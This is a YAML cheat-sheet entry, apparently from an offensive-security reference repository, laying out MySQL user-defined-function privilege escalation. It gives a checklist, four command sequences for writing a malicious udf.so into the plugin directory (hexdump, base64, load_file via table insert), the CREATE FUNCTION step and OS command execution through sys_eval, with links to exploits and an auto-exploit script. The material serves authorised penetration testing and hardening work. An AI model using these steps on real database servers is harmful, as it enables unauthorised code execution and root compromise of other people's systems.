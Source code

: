 ```yaml
---
functions:
  privilege-escalation:
    - description: Create a user-defined function to escalate privileges via mysql running as root
      code: |
        Create a user-defined-function
        -------------------------------
        - [ ] Do you have write privileges to the db?
        - [ ] Is mysql running as root?
        - [ ] Can you locate the plugin folder?

        SHOW GRANTS;  <-- show privileges
        SHOW VARIABLES;  <-- find the plugin directory  (blank can mean default location of /usr/lib/)

        ===== STEP 1 =====
        Get your udf.so into the plugin folder

        Method 1: copy 
          Copy the udf.so into the plugin folder
          
        Method 2: perform a hexdump
          od -A n -t x1 lib_mysqludf_sys.so | sed 's/ *//g' | tr -d '\n' | xclip
          select <hex> into dumpfile "<plugin folder>/udf.so";

        Method 3: perform a base64 encoded  (IF MARIADB 5.6+)
          base64 <file> -w 0 > <file>.b64
          base64 -w 0 myudf.so > myudf.b64
          cat <file>.b64 | xclip

          set @lib = "<base64>";
          select from_base64(@lib) into dumpfile "<plugin folder>/udf.so";

        Method 4: transfer file via table inserts  (easiest)
          create table foo(line blob);insert into foo values(load_file('/tmp/myudf.so'));select * from foo into dumpfile "<plugin folder>/udf.so";

        ===== STEP 2 =====
        Create the user-defined function

        create function sys_eval returns string soname 'myudf.so';  (the function name may change depending on your UDF.so library)

        ===== STEP 3 =====
        Code execution

        select sys_eval('id');

resources : |
  https://www.exploit-db.com/exploits/50236
  https://www.exploit-db.com/papers/44139/
  https://github.com/mysqludf/lib_mysqludf_sys  <-- this is the udf file I used
  https://github.com/MidnightSeer/scripts/blob/master/auto-udf.sh  <-- auto exploit, do not use unless you understand all of the above
---
```


